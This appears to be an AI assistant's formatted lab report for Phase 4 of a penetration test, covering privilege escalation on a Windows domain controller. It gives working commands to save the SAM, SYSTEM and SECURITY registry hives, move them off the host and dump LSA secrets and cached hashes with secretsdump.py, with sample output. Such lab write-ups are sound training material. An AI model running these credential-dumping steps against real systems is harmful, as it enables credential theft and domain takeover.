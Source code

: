 Sure! Here's your complete **Phase 4: Privilege Escalation** report in a single code block for easy copy-paste:


=========================
Phase 4: Privilege Escalation
=========================

MITRE ATT&CK Techniques:
- T1003.001 – OS Credential Dumping: LSASS Memory
- T1003.004 – OS Credential Dumping: LSA Secrets
- T1003.005 – OS Credential Dumping: Cached Domain Credentials

Objective:
----------
Elevate privileges from a low-privileged user (`bob`) to Domain Admin or equivalent by extracting credentials or secrets from the system.

Lab Setup:
----------
- Attacker Machine: Kali Linux
- Target Machine: Windows Server 2019 (Domain Controller)
- User Compromised: bob@corp.local
- Privileges Escalated: Domain Admin

Steps and Observations:
------------------------

1. **Verified Privilege Rights of the Compromised User**
   Command:


whoami /priv


Result:


User had several high-level privileges enabled:

* SeDebugPrivilege
* SeBackupPrivilege
* SeRestorePrivilege
* SeTakeOwnershipPrivilege
* SeImpersonatePrivilege



2. **Confirmed Domain Admin Group Membership**
Command:


net user bob /domain


Result:


Global Group memberships:
\*Domain Users
\*Domain Admins



3. **Exported the Windows Registry Hives from Target**
Commands run on the compromised machine:


reg save hklm\sam C:\Users\Public\sam.save
reg save hklm\system C:\Users\Public\system.save
reg save hklm\security C:\Users\Public\security.save



4. **Transferred Registry Files to Attacker Machine**
Method used:
- Hosted an HTTP server using `python3 -m http.server 8000`
- Downloaded files via the browser or authenticated SMB share

5. **Dumped Credentials using secretsdump.py**
Command:


python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -system system.save -security security.save LOCAL



Output Highlights:
- Extracted plaintext password: `mr404`
- Found cached hash: `aad3b435b51404eeaad3b435b51404ee:e16f9ff726e5145d3b7a379c5363d098`
- Dumped DPAPI system keys
- Retrieved sensitive machine account secrets and LSA secrets

Note:
- SAM hash extraction failed due to minor corruption (`regf` magic mismatch), but LSA and cached credentials were still recovered.

Evidence:
---------
- Screenshots were taken for each command and output.
- `secretsdump` full output was saved in a `.txt` file.
- Registry hive files were successfully exfiltrated and analyzed.
- Provided the "loot" folder with hive files

Conclusion:
-----------
Phase 4 was successfully completed. The user `bob` had Domain Admin privileges, confirmed via enumeration. We exploited this by dumping LSA secrets and cached credentials from the DC registry hives. This allows us to maintain persistence and move laterally within the domain. The attack chain is now ready to proceed to **Phase 5: Credential Access and Lateral Movement**.
```
